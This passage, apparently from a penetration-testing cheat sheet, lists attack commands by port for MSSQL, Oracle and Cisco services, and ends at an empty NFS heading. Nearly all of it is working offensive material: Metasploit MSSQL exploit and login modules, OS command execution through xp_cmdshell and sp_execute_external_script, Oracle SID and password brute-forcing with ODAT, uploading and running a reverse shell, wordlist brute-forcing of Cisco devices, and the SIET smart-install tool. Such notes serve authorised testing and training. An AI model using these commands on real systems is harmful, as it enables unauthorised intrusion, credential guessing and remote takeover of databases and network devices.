 ```bash
nmap -p 1433 -sU --script=ms-sql-info.nse 10.11.1.111
use auxiliary/scanner/mssql/mssql_ping
use auxiliary/scanner/mssql/mssql_login
use exploit/windows/mssql/mssql_payload
sqsh -S 10.11.1.111 -U sa
    xp_cmdshell 'date'
      go


EXEC sp_execute_external_script @language = N'Python', @script = N'import os;os.system("whoami")'

https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/
```

## Port 1521 - Oracle

```bash
oscanner -s 10.11.1.111 -P 1521
tnscmd10g version -h 10.11.1.111
tnscmd10g status -h 10.11.1.111
nmap -p 1521 -A 10.11.1.111
nmap -p 1521 --script=oracle-tns-version,oracle-sid-brute,oracle-brute
MSF: good modules under auxiliary/admin/oracle and scanner/oracle

# https://github.com/quentinhardy/odat
./odat-libc2.5-i686 all -s 10.11.1.111 -p 1521
./odat-libc2.5-i686 sidguesser -s 10.11.1.111 -p 1521
./odat-libc2.5-i686 passwordguesser -s 10.11.1.111 -p 1521 -d XE

# Upload reverse shell with ODAT:
./odat-libc2.5-i686 utlfile -s 10.11.1.111 -p 1521 -U scott -P tiger -d XE --sysdba --putFile c:/ shell.exe /root/shell.exe

# and run it:
./odat-libc2.5-i686 externaltable -s 10.11.1.111 -p 1521 -U scott -P tiger -d XE --sysdba --exec c:/ shell.exe
```

## Port 2000 - Cisco sccp

```bash
# cisco-audit-tool
CAT -h ip -p 2000 -w /usr/share/wordlists/rockyou.txt 

# cisco-smart-install
https://github.com/Sab0tag3d/SIET/
sudo python siet.py -g -i 192.168.0.1
```

## Port 2049 - NFS
